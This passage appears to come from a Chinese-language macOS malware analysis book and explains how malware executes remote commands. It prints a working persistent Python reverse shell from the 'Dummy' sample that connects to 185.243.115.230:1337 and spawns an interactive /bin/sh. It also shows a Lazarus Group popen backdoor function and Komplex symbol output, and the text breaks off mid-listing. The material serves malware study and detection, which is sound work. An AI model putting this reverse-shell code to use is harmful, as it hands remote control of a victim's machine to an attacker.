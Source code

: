 ```
#!/bin/bash
while :
do
     python -c 'import socket,subprocess,os; 

     s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   1 s.connect(("185.243.115.230",1337)); 

     os.dup2(s.fileno(),0); 
     os.dup2(s.fileno(),1); 
   2 os.dup2(s.fileno(),2); 

   3 p=subprocess.call(["/bin/sh","-i"]);' 
     sleep 5
done
```

列表 3-8：一个持久化的远程 shell（Dummy）

Dummy 的 Python 代码将尝试连接到 IP 地址 `185.243.115.230` 上的端口 `1337` 1。然后它会将 `STDIN`（`0`）、`STDOUT`（`1`）和 `STDERR`（`2`）复制到连接的套接字 2，然后执行带有交互模式 `-i` 标志的 `/bin/sh` 3。换句话说，它正在设置一个远程交互式反向 shell。

在受感染的系统上，持久运行的 */bin/sh* 实例连接到远程 IP 地址是相当容易发现的。因此，更复杂的恶意软件可能会通过编程方式实现这些功能，以保持更好的隐蔽性。例如，Lazarus Group 后门可以使用名为 `proc_cmd` 的函数远程执行 shell 命令（列表 3-9）：

```
int proc_cmd(char * arg0, ...) {

     bzero(&command, 0x400);
   1 sprintf(&command, "%s 2>&1 &", arg0); 
   2 rax = popen(&command, "r"); 
     ...
}
```

列表 3-9：通过 `popen` API 执行命令（Lazarus Group 后门）

在 `proc_cmd` 函数中，我们可以看到后门首先构建了要在后台执行的命令 1。然后它调用 `popen` 系统 API，进而调用 shell（*/bin/sh*）来执行指定的命令 2。尽管是非交互式的，这段代码仍然为远程攻击者提供了在受感染系统上执行任意 shell 命令的手段。

## 远程进程和内存执行

通过 shell 执行命令相当“吵闹”，因此更容易被检测到。更复杂的恶意软件可能绕过 shell，直接包含逻辑以在受感染的系统上执行进程。例如，Komplex 恶意软件可以使用程序化 API 执行任意二进制文件。如果我们从恶意软件中提取符号，会发现一个名为 `FileExplorer` 的自定义类，它有一个名为 `executeFile` 的方法，如 列表 3-10 所示：

```
% **nm -C Komplex/kextd**
...
0000000100001e60 T FileExplorer::executeFile(char const*, unsigned long)
```

列表 3-10：一个文件执行方法（Komplex）

反编译该方法后发现，它调用了 Apple 的 `[NSTask](https://developer.apple.com/documentation/foundation/nstask)` API 来执行指定的二进制文件（列表 3-11）：
